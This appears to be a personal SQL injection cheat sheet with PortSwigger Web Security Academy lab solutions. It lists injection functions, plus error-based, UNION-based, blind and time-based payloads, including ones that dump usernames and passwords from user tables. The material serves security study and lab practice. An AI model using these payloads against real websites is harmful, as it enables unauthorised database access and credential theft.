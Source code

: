 ## Common tools¶

    * Burp Suite: Introduction to Burp Suite

    * Tamper Data (Firefox addon)

    * HackBar (Firefox addon)

    * sqlmap: sqlmap user manual

## Injecting common parameters¶

    user(): current database user
    database(): current database name
    version(): the currently used database version
    @@datadir: database storage data path
    concat(): Union data used to combine two data results. Such as concat(username,0x3a,password)
    group_concat(): Similar to concat(), such as group_concat(DISTINCT+user, 0x3a, password), used to inject multiple pieces of data at once
    concat_ws(): usage is similar
    hex() and unhex(): for hex encoding and decoding
    load_file(): Read the file as text. In Windows, the path is set to \\
    select xxoo into outfile &#39;path&#39;: can write files directly when the permission is high


## Finding the Database Version
**MySQL and MSSQL** 
`',nickName=@@version,email='` <br>
**For Oracle** 
`',nickName=(SELECT banner FROM v$version),email='`<br>
**For SQLite** 
`',nickName=sqlite_version(),email='`

## Error-Based
* `CASE
    WHEN condition1 THEN result1
    WHEN condition2 THEN result2
    WHEN conditionN THEN resultN
    ELSE result
END;`
* `xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
   xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a`
* `CAST((SELECT example_column FROM example_table) AS int)`
* * Oracle 	`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual`
  * Microsoft 	`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END`
  * PostgreSQL 	`1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)`
  * MySQL 	`SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a') `


### Extra
* `',nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),email='` 

* `',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='usertable'),email='`

* `',nickName=(SELECT group_concat(profileID || "," || name || "," || password || ":") from usertable),email='`
* `2 UNION SELECT 1,2,gRoUp_cOncaT(0x7c,schema_name,0x7c),4 fRoM information_schema.schemata-- `

### Portswigger Lab Solution

************Lab 1:************

[`https://0ae400e603589e9682b8f6d70007000d.web-security-academy.net/filter?category=Accessories%27%20or%201=1--`](https://0ae400e603589e9682b8f6d70007000d.web-security-academy.net/filter?category=Accessories%27%20or%201=1--)

In short: `‘ or 1=1—`

************Lab 2:************

Username: administrator’—

password: anything

************Lab 3:************

[`https://0ab7007f04c9464f81aad5ee002600c7.web-security-academy.net/filter?category=Clothing%2c+shoes+and+accessories%27%20union%20select%20null,null,null--`](https://0ab7007f04c9464f81aad5ee002600c7.web-security-academy.net/filter?category=Clothing%2c+shoes+and+accessories%27%20union%20select%20null,null,null--)

In short: `‘union select null,null,null—`

************Lab 4:************

`' union select null,'snEL3e',null—`

************Lab 5:************

`' union select username, password from users—`

************Lab 6:************

`' union select null,username || '~' || password from users—`

************Lab 7:************

`' union select banner,null from v$version—`

************Lab 8:************

`' union select null,@@version#`

************Lab 9:************

`' union select table_name,null from information_schema.tables—`

`' union select column_name,null from information_schema.columns where table_name = 'users_nrdogg'—`

`' union select username_rkwgpt,password_vkiejw from users_nrdogg—`

**************Lab 10:**************

`' union select table_name,'null' from all_tables—`

`‘ union select column_name,null from all_tab_columns where table_name=’USERS_AFMITF’—`

`' union select USERNAME_PZTRWZ,PASSWORD_GTYDKD from USERS_AFMITF—`

**************Lab 11:**************

Test by injecting the following code to the cookie value:

`…xyz and 1=1` It should take you to the welcome page

`…xyz and 1=0` It won’t take you to the welcome page

If those codes show desired outputs, the website is vulnerable to SQL Injection

`TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a’`--

If it shows a welcome page, there is a table called users

`' and substring((select 'a' from users where username='administrator'),1,1)='a'—`

If it shows a welcome page, there is an user named administrator

https://www.youtube.com/watch?v=LBG_n9fr8sM

**************Lab 14:**************
<br>  <br>
`TrackingId=' || pg_sleep(10)-- -`

**Lab 15:**

Use “Response Received” column from intruder and use it to sort the characters that took the most time


## CheatSheets
* [Portswigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)
* [Advanced SQL Injection](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet)
